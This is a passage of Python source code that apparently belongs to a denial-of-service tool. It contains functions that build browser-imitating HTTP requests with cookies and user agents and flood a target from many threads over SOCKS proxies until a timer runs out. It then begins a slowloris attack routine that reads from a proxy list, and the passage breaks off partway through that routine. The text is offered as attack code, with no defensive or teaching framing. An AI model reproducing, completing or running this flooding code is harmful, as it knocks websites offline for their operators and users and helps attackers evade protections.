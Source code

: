 #endregion

#region
def LaunchCFSOC(url, th, t):
    until = datetime.datetime.now() + datetime.timedelta(seconds=int(t))
    target = get_target(url)
    req =  'GET '+ target['uri'] +' HTTP/1.1\r\n'
    req += 'Host: ' + target['host'] + '\r\n'
    req += 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9\r\n'
    req += 'Accept-Encoding: gzip, deflate, br\r\n'
    req += 'Accept-Language: ko,ko-KR;q=0.9,en-US;q=0.8,en;q=0.7\r\n'
    req += 'Cache-Control: max-age=0\r\n'
    req += 'Cookie: ' + cookie + '\r\n'
    req += f'sec-ch-ua: "Chromium";v="100", "Google Chrome";v="100"\r\n'
    req += 'sec-ch-ua-mobile: ?0\r\n'
    req += 'sec-ch-ua-platform: "Windows"\r\n'
    req += 'sec-fetch-dest: empty\r\n'
    req += 'sec-fetch-mode: cors\r\n'
    req += 'sec-fetch-site: same-origin\r\n'
    req += 'Connection: Keep-Alive\r\n'
    req += 'User-Agent: ' + useragent + '\r\n\r\n\r\n'
    for _ in range(int(th)):
        try:
            thd = threading.Thread(target=AttackCFSOC,args=(until, target, req,))
            thd.start()
        except:  
            pass

def AttackCFSOC(until_datetime, target, req):
    if target['scheme'] == 'https':
        packet = socks.socksocket()
        packet.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)
        packet.connect((str(target['host']), int(target['port'])))
        packet = ssl.create_default_context().wrap_socket(packet, server_hostname=target['host'])
    else:
        packet = socks.socksocket()
        packet.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)
        packet.connect((str(target['host']), int(target['port'])))
    while (until_datetime - datetime.datetime.now()).total_seconds() > 0:
        try:
            for _ in range(10):
                packet.send(str.encode(req))
        except:
            packet.close()
            pass

#slowloris
def attackslow(url, timer, threads):
    for i in range(int(threads)):
        threading.Thread(target=Launchslow, args=(url, timer)).start()
        
def Launchslow(url, timer):
    prox = open("./socks5.txt", 'r').read().split('\n')
    proxy = random.choice(prox).strip().split(":")
    timelol = time.time() + int(timer)
    m = random.choice(method)
    user_agent = random.choice(useragents)
    req =  m +" / HTTP/1.1\r\nHost: " + urlparse(url).netloc + "\r\n"
    req += "Cache-Control: no-cache\r\n"
    req += user_agent +"\r\n"
    req += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9\r\n'"
    req += "Sec-Fetch-Site: same-origin\r\n"
    req += "Sec-GPC: 1\r\n"